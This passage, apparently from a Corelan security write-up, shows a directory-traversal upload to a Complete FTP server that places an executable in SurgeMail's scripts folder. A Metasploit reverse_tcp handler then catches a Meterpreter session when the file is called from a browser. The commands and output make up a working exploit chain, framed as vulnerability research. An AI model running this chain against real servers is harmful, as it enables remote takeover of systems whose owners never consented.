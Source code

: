 ```
root@krypt2:/vpn/70# ftp 192.168.6.70
Connected to 192.168.6.70.
220-Complete FTP server
220 FTP Server v 3.3.0
Name (192.168.6.70:peter): devil
331 Password required for devil
Password:
230 User devil logged in.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd \..\..\..\  
250 Directory changed to "/MyDocuments/......".
ftp> cd \..\..\..\
250 Directory changed to "/MyDocuments/....../......".
ftp> cd \..\..\..\
250 Directory changed to "/MyDocuments/....../....../......".
ftp> cd surgemail
250 Directory changed to "/MyDocuments/....../....../....../surgemail".
ftp> cd scripts
250 Directory changed to "/MyDocuments/....../....../....../surgemail/scripts".
ftp> bin
200 Type set to I
ftp> put _corelanc0d3r.exe
local: _corelanc0d3r.exe remote: _corelanc0d3r.exe
200 PORT command successful.
150 Opening BINARY mode data connection for _corelanc0d3r.exe
226 Transfer complete.
37888 bytes sent in 0.54 secs (69.1 kB/s)
```

Next, set up a metasploit multi handler and listen for incoming connections :

```
root@krypt2:/pentest/exploits/framework3# ./msfcli multi/handler 
             payload=windows/meterpreter/reverse_tcp 
             lhost=192.168.6.114 lport=4444 E
[*] Please wait while we load the module tree...
[*] Started reverse handler on port 4444
[*] Starting the payload handler...
```

Finally I called the executable from the web browser :

[![image](:/72c448e3078d4079a6befc1333730a06 "image")](https://www.corelan.be/wp-content/uploads/2010/05/image15.png)

and the meterpreter session kicked in :

```
[*] Please wait while we load the module tree...
[*] Started reverse handler on port 4444
[*] Starting the payload handler...
[*] Sending stage (725504 bytes)
[*] Meterpreter session 1 opened (192.168.6.114:4444 -> 192.168.6.70:49604)
```
